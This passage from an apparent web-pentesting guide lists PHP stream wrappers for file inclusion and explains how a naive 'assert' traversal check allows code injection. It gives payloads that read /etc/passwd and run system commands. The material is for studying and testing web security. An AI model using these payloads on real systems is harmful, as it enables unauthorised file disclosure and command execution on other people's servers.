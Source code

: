 ### More protocols

Check more possible[ **protocols to include here**](https://www.php.net/manual/en/wrappers.php)**:**

* [php://memory and php://temp](https://www.php.net/manual/en/wrappers.php.php#wrappers.php.memory) — Write in memory or in a temporary file (not sure how this can be useful in a file inclusion attack)
* [file://](https://www.php.net/manual/en/wrappers.file.php) — Accessing local filesystem
* [http://](https://www.php.net/manual/en/wrappers.http.php) — Accessing HTTP(s) URLs
* [ftp://](https://www.php.net/manual/en/wrappers.ftp.php) — Accessing FTP(s) URLs
* [zlib://](https://www.php.net/manual/en/wrappers.compression.php) — Compression Streams
* [glob://](https://www.php.net/manual/en/wrappers.glob.php) — Find pathnames matching pattern (It doesn't return nothing printable, so not really useful here)
* [ssh2://](https://www.php.net/manual/en/wrappers.ssh2.php) — Secure Shell 2
* [ogg://](https://www.php.net/manual/en/wrappers.audio.php) — Audio streams (Not useful to read arbitrary files)

## LFI via PHP's 'assert'

Local File Inclusion (LFI) risks in PHP are notably high when dealing with the 'assert' function, which can execute code within strings. This is particularly problematic if input containing directory traversal characters like ".." is being checked but not properly sanitized.

For example, PHP code might be designed to prevent directory traversal like so:

```bash
assert("strpos('$file', '..') === false") or die("");
```

While this aims to stop traversal, it inadvertently creates a vector for code injection. To exploit this for reading file contents, an attacker could use:

```plaintext
' and die(highlight_file('/etc/passwd')) or '
```

Similarly, for executing arbitrary system commands, one might use:

```plaintext
' and die(system("id")) or '
```

It's important to **URL-encode these payloads**.

<figure><img src="../../.gitbook/assets/image (380).png" alt=""><figcaption></figcaption></figure>
